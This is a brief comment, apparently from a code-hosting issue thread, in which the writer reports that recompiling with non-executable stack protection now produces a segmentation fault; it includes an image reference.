I have turned on the non-executbale stack protection as mentioned by removing the flag `noexecstack` and recompiled. I can see that I directly get the error saying `segmentation fault`. 




--- *The End* ---